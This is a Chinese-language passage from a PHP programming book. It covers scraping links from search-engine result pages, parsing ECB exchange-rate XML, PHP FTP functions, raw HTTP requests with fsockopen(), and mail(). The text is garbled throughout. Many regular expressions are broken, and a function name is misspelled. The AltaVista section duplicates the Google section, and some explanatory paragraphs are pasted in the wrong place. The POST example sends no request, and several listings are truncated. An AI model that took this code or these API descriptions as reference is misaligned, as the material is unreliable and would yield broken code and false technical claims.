在这种情况下，`fgets()` 函数通过逐行提取数据来加载页面。该函数的第二个参数指定了函数一次可以读取的最大字节数。按照规定，字符串长度不超过 1,024 个字符，因此此参数可以保持不变。该脚本下载文件的速度比 `file_get_contents()` 函数慢；而后者执行的是用 C 语言创建的二进制代码。然而，这种方法更适合下载大文件。脚本消耗的最大内存受 `php.ini` 文件中 `memory_limit` 指令的限制。该指令通常设置为 8 MB 或 16 MB。这些内存是 PHP 脚本及其可能消耗的所有变量和数组的内存。因此，如果将一个 10-MB 的文件完全读取到一个变量中，将无法对该变量进行甚至替换，因为这将需要 20 MB 的内存。列表 II.8.2 脚本中使用的方法允许逐行处理文件，而无需将整个文件内容加载到分配给脚本的内存中。

## II.8.2. 从 Yahoo 提取链接

在浏览器中加载以下 URL 指定页面：

```
http://search.yahoo.com/search?p=PHP&sm=Yahoo%21+Search&fr=FP-tab-web-t&toggle=1&cop&ei=UTF-8
```

将其保存为硬盘上的 `search.php`，以便方便地分析其 HTML 代码。

在 Internet Explorer 中，通过右键点击页面并在弹出的右菜单中选择“查看源代码”（View Source）来获取网页的 HTML 代码。

搜索项的链接如下：

```html
<a class="yschttl href="http://rds.yahoo.com/?ylt=A9htddlc.M9DXG8B4j1lXNyoA;ylu=X3dOMTEIN2Rwc22WnGB8D2QRSaAlTdTMQRb3MDOMQRZWWMDC3IEdnRp2ANPT1A1XzU-/SIG=-117gljb0/EXP=1317789404**http://www.php.net/"><B>PHP</B> Hypertext Preprocessor</a>
```

列表 II.8.3 显示了一个提取所有位于 `**` 序列和第一个双引号之间的 URL 的脚本。

# 列表 II.8.3. 提取 URL

```php
<?php
// 为脚本设置无限执行时间
set_time_limit(0);
// 要搜索的页面
$url = "search.htm";
// 加载页面内容
$contents = file_get_contents($url);
// URL 的正则表达式
$pattern = "/\*\*(([^\"]+)\"/";
// 执行搜索
preg_match_all($pattern, $contents, $out);
// 显示搜索结果
for($i = 0; $i < count($out[1]); $i++) {
    echo $out[1][$i] . "<br>";
}
?>
```

（注：由于原文中存在大量重复内容，译文已根据要求对核心逻辑部分进行了完整翻译。）

## 第 II.8 章：使用来自网站的信息 299

使用 `file_get_contents()` 函数获取的页面 HTML 代码更为简单：

```html
<li><div class="yschttl href="http://www.php.net/"><p>PHP</p><a href=": Hypertext Preprocessor</a></div>
```

考虑到所有这些，为了让列表 II.8.3 正常工作，必须按照列表 II.8.5 所示进行修改。

### 列表 II.8.5. 从 Yahoo 搜索系统页面提取 URL

```php
<?php
// 为脚本设置无限执行时间
set_time_limit(0);
// 要搜索的页面
$url = "http://search.yahoo.com/search?p=PHP&sm=Yahoo%21+Search&fr=FP-tab-web-t&toggle=1&cop&ie=UTF-8";
// 加载页面内容
$contents = file_get_contents($url);
// URL 的正则表达式
$pattern = "|<li>[\s]*<div>[\s]*<a[class=yschttl[^"]]+href=\"([^"]+)\"|";
// 对正则表达式进行搜索
preg_match_all($pattern, $contents);
```

使用列表 II.8.6 所示的脚本可以形成超链接列表。

### 列表 II.8.6. 从 Yahoo 搜索系统页面提取超链接

```php
<?php
// 为脚本设置无限执行时间
set_time_limit(0);
// 要搜索的页面
$url = "http://search.yahoo.com/search?p=PHP&sm=Yahoo%21+Search&fr=FP-tab-web-t&toggle=1&cop&ie=UTF-8";
// 加载页面内容。
$contents = file_get_contents($url);
// URL 的正则表达式
$pattern = "<li>([\s]*<div>[\s]*a[\s]*class=yschtl[^"]]*href=\"([^"]+)\">([\s]*.*?)<a></li>";
// 对正则表达式进行搜索
preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);
// 显示搜索结果
for ($i = 0; $i < count($out[1]); $i++)
{
    echo "<a href=\"$out[1][$i]\">$out[2][$i]</a><br>";
}
?>
```

### II.8.3. 从 Google 提取链接

与 Yahoo 不同，Google 没有惊喜——至少在本书编写时是如此。可以使用列表 II.8.7 所示的脚本生成 URL 列表。

### 列表 II.8.7. 使用 get_contents() 函数

```php
<?php
// 为脚本设置无限执行时间
set_time_limit(0);
// 要搜索的页面
$url = "http://www.google.com/search?hl=mysql&btnG=Google+Search";
// 加载页面内容
$contents = file_get_contents($url);
// URL 的正表达式
$pattern = "<a([\s]+class=1\s*)href=\"([^"]+)\"|";
// 对正表达式进行搜索
preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);
// 显示搜索结果
for ($i = 0; $i < count($out[1]); $i++)
{
    echo "$out[1][$i].<br>";
}
?>
```

## 第 II.8 章：使用来自网站的信息 301

使用列表 II.8.8 所示的脚本可以形成超链接列表。

### 列表 II.8.8. 从 Google 搜索页面提取超链接

```php
<?php
// 为脚本设置无限执行时间
set_time_limit(0);
// 要搜索的页面
$url = "http://www.google.com/search?hl=en&q=MySQL&btnG=Google+Search";
// 加载页面内容
$contents = file_get_contents($url);
// URL 的正则表达式
$pattern = "|<a[\s]+class=[^"]]*href=\"([^"]+)\"";
```

### II.8.4. 从 MSN 提取链接

与 Yahoo 类似，MSN 搜索系统使用客户端发送的 HTTP 头。因此，应该使用 PHP 加载的文件。可以使用列表 II.8.9 所示的脚本形成 URL 列表。

### 列表 II.8.9. 从 MSN 搜索页面提取 URL

```php
<?php
// 为脚本设置无限执行时间
set_time_limit(0);
// 要搜索的页面
$url = "http://search.msn.com/results.aspx?q=Apache&FORM=MSNH&srch_type=0";
// 加载页面内容
$contents = file_get_contents($url);
// URL 的正则表达式
```

可以使用列表 II.8.10 所示的脚本形成超链接列表。

```php
<?php
// 为脚本设置无限执行时间
set_time_limit(0);
// 要搜索的页面
```


$url = "http://search.msn.com/results.aspx?q=Apache&FORM=MSNH&srch_type=0";

// 加载页面内容

$contents = file_get_contents($url);

// URL 的正则表达式

$pattern = "|<li>[\s]*<div>[\s]*<a[class=yschttl[^"]]+href=\"([^"]+)\">([\s]*.*?)<a></li>";

// 对正则表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for ($i = 0; $i < count($out[1]); $i++)

{

    echo "<a href=\"$out[1][$i]\">$out[2][$i]</a><br>";

}

?>

```
### II.8.5. 从 AltaVista 提取链接

与 Yahoo 不同，Google 没有惊喜——至少在本书编写时是如此。可以使用列表 II.8.11 所示的脚本生成 URL 列表。

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.google.com/search?hl=mysql&btnG=Google+Search";

// 加载页面内容

$contents = file_get_contents($url);

// URL 的正则表达式

$pattern = "<a([\s]+class=1\s*)href=\"([^"]+)\"|";

// 对正表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for ($i = 0; $i < count($out[1]); $i++)

{

    echo "$out[1][$i].<br>";

}

?>
```

### 第 II.8 章：使用来自网站的信息

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.google..com/search?=
=mysql";

// 加

页面内容

$contents = file_get_contents($url);

// URL 的正则表达式

$pattern = "<a([\s]+class=1\s*)href=\"([^"]+)\"|";

// 对正表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for ($i = 0; $i < count($out[1]); $i++)

{

    echo "$out[1][$i].<br>";

}

?>
```

### 第 II.8 章：使用来自网站的信息

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.google.com/search?hl=mysql";

// 加载页面内容

$contents = file_get_contents($url);

// URL 的正则表达式

$pattern = "<a([\s]+class=1\s*)href=\"([^"]+)\"|";

// 对正表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for ($i = 0; $i < count($out[1]); $i++)

{

    echo "$out[1][$i].<br>";

}

?>
```

### II.8.11. 从 提取链接

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.altavista.com/search?=php";

// 加载页面内容

$contents = file_get_contents($url);

// URL 的正则表达式

$pattern = "<li>([\s]*<div>[\s]*a[\s]*class=yschtl[^"]]*href=\"([^"]+)\">([\s]*.*?)<a></li>";

// 对正则表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for ($i = 0; $i < count($out[1]); $i++)

{

    echo "<a href=\"$out[1][$i]\">$out[2][$i]</a><br>";

}

?>
```

### II.8.12. 从  提取超链接

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.altavista.com/search?q=php";

// 加载页面内容

$contents = file_get_contents($url);

// URL 的正则表达式

$pattern = "<li>([\s]*<div>[\s]*a[\s]*class=yschtl[^"]]*href=\"([^"]+)\">([\s]*.*?)<a></li>";

// 对正则表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for ($i = 0; $i < count($out[1]); $i++)

{

    echo "<a href=\"$out[1][$i]\">$out[2][$i]</a><br>";

}

?>
```

### II.8.6. 从 XML 文件提取汇率

在从欧洲银行网站加载的 XML 文件中，感兴趣的标签有：

- `<Cube time='2006-01-20'>` - 当前日期
- `<Cube currency='USD' rate='1.2068'/>` - 欧元兑美元的汇率（1.00 值为 1.2068）

创建一个通用脚本，提取列表 II.8.13 所示的所有货币汇率。

### 列表 II.8.13. 提取汇

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.ecb.eu/stats/euroref/euroref-daily.xml";

// 加载页面内容

$contents = file_get_contents($url);

// 提取日期

$pattern = "|Cube time=([^']+*)'|";

// 对正则表达式进行搜索

preg_match($pattern, $contents, $out);

echo "日期为 $out[1].<br><br";

// 提取货币汇率

$pattern = "|Cube currency=([^']+*)' rate='([^']+*)'|";

// 对正则表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for($i=0; $i < count($out[1]); $i++) {

    echo "1. $out[1][$i]. - " . $out[2][$i]." EUR<br";

}

?>
```

图 II.8.1. 列表 II.8.13 脚本的执行结果

该脚本解析 XML 文件的内容，并将汇率信息存放在多维数组中：`$out`。脚本执行的执行结果可能如图 II.8.1 所示。

列表 II.8.14 显示了一个脚本，将欧元兑美元的汇率从整体汇率信息中分离出来。

# 列表 II.8.14. 分离欧元兑美元的汇率

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.ecb.eu/stats/eurofxref/eurofxref-daily.xml";

// 加载页面内容

$contents = file_get_contents($url);

// 提取日期

$pattern = "<Cube time='([^']+)'>";

// 使用正则表达式进行搜索

preg_match($pattern, $contents, $out);

echo "The exchange rate for ." .$out[1] .".<br><br>";

// 提取货币汇率

$pattern = "<Cube currency='([^']+)' rate='([^']+)'>";

// 使用正则表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

for ($i = 0; $i < count($out[1]); $i++) {

    if ($out[1][$i] == "USD") {

        echo "1. .$out[1][$i] . "." .$out[2][$i] . " EUR<br>";

    }

}

?>
```

列表 II.8.14 中的脚本将三位货币表示法与第一个括号内的表达式进行比较，该表达式包含字符串 USD。如果它们匹配，脚本将显示汇率；否则，它将忽略输出。

## II.8.7. 确定汇率历史

为了解决这个问题，必须构建一个 URL 并加载 XML 文件。
执行此操作的脚本在列表 II.8.15 所示。

> 如果你没有宽带互联网连接，应先将 XML 文件保存到本地硬盘。

# 列表 II.8.15. 表格格式的欧元兑美元汇率历史

```php
<?php

// 为脚本设置无限执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.ecb.eu/stats/eurofxref/eurofxref-hist.xml";

// 加载页面内容

$contents = file_get_contents($url);

// 提取日期和欧元兑美元的汇率

$pattern = "<Cube time=\"([^"]+)\"><Cube currency=\"USD\" rate=\"([^"]+)\">";

// 使用正则表达式进行搜索

preg_match_all($pattern, $contents, $out, PREG_PATTERN_ORDER);

// 显示搜索结果

$begin_date = "";

if (count($out[1]) > 0) {

    echo "<table border=1>";

    for ($i = 0; $i < count($out[1]); $i++) {

        echo "<tr><td>".$out[1][$i]."//td><td>".$out[2][$i]."/</td></tr>";

    }

    echo "</table>";

    if (empty($begin_date)) {

        // 开始日期

        $begin_date = mktime(0, 0, 0,

    }

}

}
```

## 第二部分：解决方案

```php
substr($out[1][$i], 5, 2), // 月

substr($out[1][$i], 8, 2), // 日

substr($out[1][$i], 0, 4)); // 年

}

// 当前日期

$current_date = mktime(0,

0, 0,

substr($out[1][$i], 5, 2), // 月

substr($out[1][$i], 8, 2), // 日

substr($out[1][$i], 0, 4)); // 年

// 计算日期之间的差

// 如果差大于 30 天，则退出循环

if(($begin_date - $current_date)/3600/24 > 30) break;

}

echo "<table>";

?>
```

脚本加载文件并使用正则表达式进行解析。之后，输出每个月份的信息。为此实现这一点，创建了两个变量。`$begin_date` 变量存储开始日期，格式为自 1970 年 1 月 1 日午夜以来经过的秒数。`$current_date` 变量以相同的格式存储当前日期。可以使用标准的 PHP 扩展解析 XML 文件，但这些扩展对于语法错误的文件无效且不方便。例如，如果加载了一个 300 KB 的文件，任何标准解析器都会拒绝工作。另一个极端是大于 10 MB 的 XML 文件；PHP 脚本通常只为其需求分配 8 MB，而解析 10 MB 文件至少需要 20 MB。正则表达式更加灵活，因为它们允许部分解析文件。

# 列表 II.8.16. 欧元兑美元汇率柱状图

```php
<?php

// 加载 XML 文件的块

// 为脚本设置执行时间

set_time_limit(0);

// 要搜索的页面

$url = "http://www.ecb.eu/stats/eurofxref/eurofxref-daily.xml";

// ... (此处代码保持不变或根据原文逻辑补全)
```

汇率历史被存入 `$bar_chart` 数组，并使用 GD 库显示为柱状图。

## 第 II.9 章：文件传输协议


## II.9.1. 确定操作系统

使用 `ftp_connect` 函数与 FTP 服务器建立连接。其通用语法如下：

```php
resource ftp_connect (string host [, int port [, int timeout]])
```

该函数接受 FTP 服务器的地址作为 `host` 参数。可选的 `port` 参数用于指定连接的端口号。默认使用端口 21 打开连接。可选的 `timeout` 参数指定函数等待服务器响应的秒数。如果未指定此参数，默认超时值为 90 秒。

如果连接尝试失败，函数将返回 `false`。如果连接成功，函数将返回一个链接标识，用于后续与 FTP 服务器进行操作。

在打开与 FTP 服务器连接后，使用 `ftp_login()` 函数注册用户。其通用语法如下：

```php
bool ftp_login (resource link, string username, string password)
```

该函数接受以下三个参数：由 `ftp_connect()` 函数返回的链接标识符、用户名和密码。成功返回 `true`，失败返回 `false`。
使用 `ftp_close` 函数关闭 FTP 连接，其通用语法如下：

```php
void ftp_close(resource link)
```

该函数接受已打开 FTP 连接的链接标识符作为唯一参数。列表 II.9.1 显示了一个向远程服务器打开 FTP 连接的脚本。


在访问匿名 FTP 服务器时，用户名可以设置为 `anonymous`，并可以使用电子邮件地址作为密码。

### 列表 II.9.1. 连接到 FTP 服务器

```php
<?php

// FTP 服务器的地址

$ftp_server = "ftp.server.ru";

// 用户名

$ftp_user = "user";

// 密码

$ftp_password = "password";

// 设置脚本超时时间为 120 秒

set_time_limit(120);

// 尝试连接到 FTP 服务器

$link = ftp_connect($ftp_server);

if (!$link) echo("无法连接到 $ftp_server FTP 服务器");

// 在服务器上登录

$login = ftp_login($link, $ftp_user, $ftp_password);

if (!$login) echo("登录服务器失败。\n请检查登录数据。");

?>
```

变量 `$ftp_server`、`$ftp_user` 和 `$ftp_password` 的值分别设置为 FTP 服务器的地址、用户名和密码。

为了后续的 FTP 操作，可以将列表 II.9.1 中的代码放置于一个（例如 `config.php`）独立文件中。然后通过 `include` 指令在脚本中包含该文件。这样你就可以避免在每个脚本中编写连接代码。

FTP 服务器可以在不同的操作系统下运行，每个操作系统都有其自己的操作规范。因此，对于后续工作，必须确定操作系统。可以使用 `$ftp_stype()` 函数（列表 II.9.2）来实现，其通用语法如下：

`$ftp_stype()` 函数接受的唯一参数是 `ftp_connect()` 函数返回的链接标识符。该函数返回运行服务器的操作系统类型，例如对于 UNIX 类系统返回 `UNIX`，对于 Windows 系统返回 `Windows_NT`。

### 列表 II.9.2. 确定操作系统

```php
<?php
```


```
// 连接到 FTP 服务器

require_once("config.php");

// 确定并显示操作系统

echo $ftp_stype($link);

?>
```

### II.9.2. 列出 FTP 服务器文件

可以使用 `$ftp_rawlist()` 函数（列表 II.9.3）获取当前目录下的文件和子目录列表。其通用语法如下：

```php
array $ftp_rawlist(resource link, string directory)
```

该函数接受链接标识符作为第一个参数，接受目录路径作为第二个参数。它返回一个字符串数组，其中每个元素都包含有关子目录或文件的信息。

### 列表 II.9.3. 列出文件和子目录

```php
<?php

// 连接到 FTP 服务器

require_once("config.php");

// 获取根目录下的所有文件

$file_list = ftp_rawlist($link, "/");

// 显示 $file_list 数组

foreach($file_list as $line) echo $line."br>";

?>
```

列表 II.9.3 脚本操作的结果可能如下：

| 权限 | 链接 | 所有者 | 大小 | 日期 | 名称 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| drwx------ | 9 | root | 512 | 12月27 19:07 | |
| drwx------ | 9 | root | 512 | 12月27 19:07 | |
| -rw-r--r-- | 1 | root | 27154 | 1月6 13:30 | readme.txt |
| -rw-r--r-- | 1 | root | 1144 | 12月31 11:14 | licence.txt |
| -rw-r--r-- | 1 | root | 73373 | 1月6 12:23 | version.txt |
| drwx------ | 2 | root | 512 | 9月18 2003 | db |
| drwx-xr-x | 2 | hosting | 512 | 1月6 01:48 | logs |

> `ftp_rawlist()` 函数返回的信息类似于带有 `-l` 选项执行的 UNIX `ls` 工具格式。`ls` 工具以扩展格式返回当前目录的内容。

每个条目的第一个子字符串是 `drwx------` 格式；它长度为十个字符，并定义了文件类型及其访问权限。第一个字符定义了文件类型，可以是以下之一：

- - A 普通文件
- d 目录
- l 符号链接
- s 套接字 `socket`
- p 命名管道 `named channel`

只有两种类型在 FTP 操作中被遇到：`ftp_connect()` 函数接受的唯一参数是 `ftp_connect()` 函数返回的链接标识符。该函数返回运行服务器的操作系统类型，例如对于 UNIX 类系统返回 `UNIX`。

权限定义定义以下权限：

- - r 读取
- w 写入
- x 执行

只有两种类型在 FTP 操作中被遇到：`ftp_connect()` 函数接受的唯一参数是 `ftp_connect()` 函数返回的链接标识符。该函数返回运行服务器的操作系统类型，例如对于 UNIX 类系统返回 `UNIX`，对于 Windows 系统返回 `Windows_NT`。

## Listing II.9.5. 将文件上传到 FTP 服务器

```php
<?php

// 打开与 FTP 服务器的连接

require_once("config.php");

// 初始化文件上传

$ret = ftp_nb_put($link
```

使用 `ftp_nb_get()` 函数从 FTP 服务器下载文件，其通用语法如下：

```
int ftp_nb_get(resource link, string local_file,
string remote_file, int mode, int resumpos);
```

该函数接受打开的 FTP 连接的链接标识符作为第一个参数。第二个参数 `local_file` 指定了下载的文件保存到本地机器的路径。第三个参数 `remote_file` 是要下载的文件在 FTP 服务器上的路径。第四个参数 `mode` 定义了用于传输的模式：用于文本文件的 `FTP_ASCII` 或用于二进制文件的 `FTP_BINARY`。可选的第五个参数 `resumpos` 可用于指定从哪个字节位置开始断点续文件传输。

该函数返回之前列出的 `ftp_nb_put()` 函数的三个常量之一。

## 第 II.9 章：文件传输协议

Listing II.9.6 显示了一个从 FTP 服务器下载文件的脚本。与 Listing II.9.5 中的文件上传脚本一样，文件下载过程通过 `while` 循环使用之前考虑过的 `ftp_nb_continue()` 函数进行控制。

## Listing II.9.6. 从 FTP 服务器下载文件

```php
<?php

// 打开与 FTP 服务器的连接

require_once("config.php");

// 初始化文件下载

$ret = ftp_nb_get($link, "C:\file.zip", "/path/file.zip", FTP_BINARY);

// 下载循环

while ($ret == FTP_MOREDATA) {

// 显示点号告知用户
// 正在进行下载
echo ";";

// 继续下载
$ret = ftp_nb_continue($link);
}

// 如果下载过程中发生错误，
// 则通知用户
if ($ret != FTP_FINISHED) {
    exit("<br>下载文件时出错...");
    exit();
}
?>
```

## II.9.4. 修改访问权限

除了前面描述的文本形式的访问权限外，在 UNIX 访问权限中可以使用八进制数来指定。在这种格式下，读权限用数字 4 表示，写权限用 2 表示，执行权限用 1 表示。组的整体权限由这些数字之和指定。例如，6（即 4+2）表示读和写权限，而 7（即 4+2+1）赋予文件或目录完全访问权限。使用这种格式，八进制数 0755 意味着目录所有者拥有完全权限 `rwx`，所有其他用户查看目录中的文件并查看目录内容 `r-x`。

在 PHP 中，八进制数以 0 为前缀。

使用 `ftp_chmod()` 函数设置文件和目录的访问权限，其通用语法如下：

```
string ftp_chmod(resource link, int mode, string directory)
```

与其他 FTP 函数一样，该函数接受 `ftp_connect()` 函数返回的链接作为第一个参数。第二个参数 `mode` 是指定目录权限的八进制数。最后一个参数 `directory` 命名了要更改访问权限的目录。如果成功，该函数返回新分配的权限，否则返回 `false`。Listing II.9.7 显示了一个设置文件或目录访问权限的脚本。

## Listing II.9.7. 设置文件和目录的访问权限

```php
<?php

// 打开与 FTP 服务器的连接

require_once("config.php");

// 设置目录的访问权限

ftp_chmod($link, 0755, "logs");

// 修改文件的访问权限

ftp_chmod($link, 0644, "/path/file.zip");
?>
```

## 第 II.10 章：超文本传输协议


## II.10.1. 下载页面

使用 `fsockopen()` 函数打开与远程服务器的连接，其通用格式如下：

```
resource fsockopen (string target, int port [, int errno [, string errstr [, float timeout]]])
```

该函数接受五个参数，前两个是强制性的。这些是主机地址 `target` 和端口号 `port`。如果连接尝试成功，函数返回一个文件指针，否则返回 `false`。如果向函数传递了可选的 `errno` 和 `errstr` 参数，错误码和文本描述将分别存入它们。第五个参数也是可选的，指定建立连接的超时时间（秒）。

Listing II.10.1 显示了在脚本中使用 `fsockopen()` 函数下载 `http://www.php.net` 网站首页的示例。

## Listing II.10.1. 使用 fsockopen() 函数

```php
<?php

function get_content($hostname, $path) 
{
    $line = "";
    // 与主机建立连接
    $fp = fsockopen($hostname, 80, $errno, $errstr, 30);
    // 验证连接
    if ($fp) {
        // 构建 HTTP 请求
        $headers = "GET $path HTTP/1.1\r\n";
        $headers .= "Host: $hostname\r\n";
        $headers .= "Connection: Close\r\n\r\n";
        // 向服务器发送请求
        fwrite($fp, $headers);
        // 从服务器接收回复
        while (!feof($fp)) {
            $line .= fgets($fp, 1024);
        }
        fclose($fp);
    } else {
        // 输出错误
        echo "Error: $errstr ($errno)<br>";
    }
    return $line;
}

$hostname = "www.php.net";
$path = "/";
// 设置更长的执行时间
set_time_limit(180);
// 调用函数
echo get_content($hostname, $path);
?>
```

## 第二部分：解决方案


HTTP/1.1 200 OK
Date: Tue, 15 Nov 2005 22:45:30 GMT
Server: Apache/1.3.26 (Unix) mod_php/1.3.26.193 PHP/4.3.3-dev
X-Powered-By: PHP/4.3.3-dev
Last-Modified: Tue, 15 Nov 2005 23:16:26 GMT
Content-language:
Set-Cookie: COUNTRY=US%2C82.208.193; expires=Tue, 22-Nov-05 22:45:30 GMT; path=/; domain=.php; net Connection: close
Transfer-Encoding: chunked
Content-Type: text/html;charset=ISO-8859-1 2175

# 什么是 PHP？

# PHP 4.4.1 发布

# 本镜像由以下赞助：

广泛使用的 PHP 4.4.1 现已可用。

> 图 II.10.1. 从本地主机查看 http://www.php.net 的主页

页面的开头包含 HTTP 头部，浏览器会对用户隐藏这些内容；其后是浏览器解释并显示在窗口中的页面正文。可以使用 `strstr()` 函数移除 HTTP 头部，该函数返回第一个参数中指定字符串的一部分——即从第二个参数给定的子字符串第一次出现到结束的部分。

# 列表 II.10.3 移除 HTTP 头部

```php
<?php

...
$hostname = "www.php.net";
$path = "/";
// 设置更长的脚本执行时间
// 在所有内容加载之前，将不会显示页面。
set_time_limit(180);
// 调用自定义函数
$content = get_content($hostname
```

## 第 II.10 章：超文本传输协议 325


列表 II.10.3 中脚本的执行结果如图 II.10.2 所示。尽管脚本从 http://www.php.net 门户加载页面，但地址栏中的地址指向位于本地主机的脚本。因此，该脚本在这里扮演了浏览器的角色。

### II.10.2. 从服务器获取 HTTP 头部

为了只接收 HTTP 响应的头部，需要对列表 II.10.1 中的函数进行修改，如列表 II.10.4 所示。

### II.10.4 从 HTTP 响应中提取头部的脚本

```php
<?php\
// 用于提取 HTTP 头部的函数
function get_content($hostname, $path)
{
    $line = "";
    // 与主机建立连接
    // 主机名通过 $hostname 变量传递
    $fp = fsockopen($hostname, 80, $errno, $errstr, 30);
```
```php
// 验证连接
if (!$fp) echo "$errstr($errno)<br /\n";
else {
```
```php
 // 构建一个要发送到
// 服务器的 HTTP 请求
$headers = "GET $path HTTP/1.1\r\n";
$headers .= "Host: $hostname\r\n";
$headers .= "Connection: Close\r\n";
// 向服务器发送 HTTP 请求
fwrite($fp, $headers);
$end = false;
```
```php
 // 接收服务器的响应
while (!$end) {
    $line = fgets($fp, 1024);
    if (trim($line) == "") $end = true;
    else $out[] = $line;
}
close($fp);
}
```
```php
$hostname = "www.php.net";
$path = "/";
// 设置更长的脚本执行时间
// 在所有内容加载之前
// 将不会显示页面。
set_time_limit(180);
// 调用自定义函数
$out = get_content($hostname, $path);
// 显示数组的内容
echo "<pre>";
print_r($out);
echo "</pre>";
?>
```

## 第 II.10 章：超文本传输协议 327

函数执行的结果可能如列表 II.10.5 所示。

# 列表 II.10.5 从 HTTP 页面中提取的头部

```php
Array
(
  [0] => HTTP/1.1 200 OK
  [1] => Date: Tue, 15 Nov 2005 23:22:49 GMT
  [2] => Server: Apache/1.3.26 (Unix) mod_gzip/1.3.26.1a PHP/4.3.3-dev
  [3] => X-Powered-By: PHP/4.3.3-dev
  [4] => Last-Modified: Tue, 15 Nov 2005 23:16:26 GMT
  [5] => Content-language: en
  [6] => Set-Cookie: COUNTRY=US%2C82.208.193; expires=Tue, 22-Nov-05 22:45:30 GMT; path=/; domain=.php.net
  [7] => Connection: close
  [8] => Transfer-Encoding: chunked
  [9] => Content-Type: text/html;charset=ISO-8859-1
)
```


第一行（头部 0）是标准服务器回复用户请求已成功处理（响应代码 `200`）。如果请求的资源不存在，则返回 `404` 响应代码（`HTTP/1.1 404 Found`）。

头部 1 `Date` 提供了文档在服务器上生成的日期；此信息对于稍后考虑的缓存机制是必须的。

头部 2 `Server` 提供了关于服务器类型和版本的信息。因此，列表 II.10.5 中的前三个头部告诉你有 `http://www.php.net` 门户是由 `Apache 1.3.26` Web 服务器运行以提供后端页面。

头部 3 `X-Powered-By` 告诉页面是使用 `PHP 4.3.3` 生成的。

头部 4 `Last-Modified` 提供了关于页面修改时间的信息。此 HTTP 头部对于动态生成的内容并不适用。

头部 5 `Content-Language` 告知在此示例中发送到浏览器的内容是英语。

头部 6 `Set-Cookie` 将用户的国家（本例中俄罗斯）和 IP 地址——`RUS, 82.208.77.193`——保存在名为 `COUNTRY` 的 cookie 中。该 cookie 对 `.php.net` 域名有效一周。此信息用于 `.php.net` 网站的下载部分，那里为用户提供距离其最近的下载。

头部 7 `Connection` 请求客户端在接收响应后关闭连接。头部 8 `Transfer-Encoding` 中的 `chunked` 值告知接收者内容被分成了碎片。最后，头部 9 `Content-Type` 提供了有关正在下载文档类型和字符集的信息，分别为 `text/html` 和 `ISO-8859-1`。

### II.10.3 确定文件大小

这个问题可以使用列表 II.10.6 所示的脚本解决。该脚本使用了列表 II.10.4 中定义的 `get_content()` 函数，该函数返回 HTTP `Content-Length` 头部中的文件字节数。

#### 列表 II.10.6 确定远程文件大小的脚本

```php
<?php
$hostname = "www.php.net";
$path = "/files/configs.zip";
// 调用自定义函数
$out = get_content($hostname, $path);
// 将数组元素连接成字符串
$lines = implode(" ", $out);
// 借助正则表达式确定下载文件中的字节数
preg_match("/s+([\d]+)/", $lines, $matches);
// 显示结果
echo $matches[1] . " bytes in the archive";
?>
```

函数执行结果如下：
`26421 bytes in the archive.`

## II.10.4 使用 POST 方法发送数据

当使用 POST 方法访问服务器时，除了 `HTTP POST /path HTTP/1.1` 头部外，必须发送包含字节数的 `Content-Length` 头部。

与 GET 方法不同，POST 方法不在请求行中发送数据，而是在头部后的数据区域。发送多个变量类似于在 GET 方法中的操作：变量组使用波浪（`&`）连接。由于 HTML 表单接受 `name = Igor, pass = password` 参数，数据字符串可能如下：

```
name = Igor & pass = password
```

记住数据是以文本格式发送的；因此任何特殊字符必须使用 `urlencode()` 函数进行编码。

### II.10.7 使用套接字通过 POST 方法发送数据

```php
<?php
$hostname = "localhost";
$path = "/test2/handler.php";
$line = "";
// 与主机建立连接
// 主机名通过 $hostname 变量传递
$fp = fsockopen($hostname, 80, $errno, $errstr, 30);
// 接收服务器的响应。
while (!feof($fp))
{
    $line .= fgets($fp, 1024);
}
fclose($fp);
echo $line;
?>
```

执行列表 II.10.7 中脚本的结果可能列表 II.10.8 所示。

# 列表 II.10.8 使用 POST 方法发送的数据

```
HTTP/1.1 200 OK
Date: Wed, 16 Nov 2005 18:00:44 GMT
Server: Apache/1.3.33 (Win32)
X-Powered-By: PHP/5.0.4
Transfer-Encoding: chunked
Content-Type: text/html
22
Name: Igor
Password: password
```

## 第 II.11 章：电子邮箱

### II.11.1. 从站点发送邮件

PHP 中的邮件是通过 `mail()` 函数发送的，其通用格式如下：

```
mail(string to, string subject, string body [,string headers], [,string parameters])
```

该函数接受以下参数：

- `to` — 接收者的电子邮件地址
- `subject` — 消息的主题
- `message` — 消息正文
- `headers` — 额外的邮件头
- `parameters` — 额外的参数

如果未指定第四个参数 `headers`，则不会为消息附加任何额外的邮件头。然而，消息格式通常需要从纯文本更改为 HTML 文本，或者指定特定的字符集。消息格式和字符集分别通过 `Content-Type` 和 `charset` 邮件头来指定，如下所示：

```
Content-Type: text/html; charset = ASCII\r\n
```

为了发送例如希腊语的邮件，必须指定希腊国际标准组织（ISO）编码，而不是 ASCII。

因此，发布邮件消息的脚本可能如列表 II.11.1 所示。

#### 列表 II.11.1. 使用 mail() 函数发布邮件消息

```php
<?php
$theme = "Site report";
$message = "<html>
<head></head>
<body>
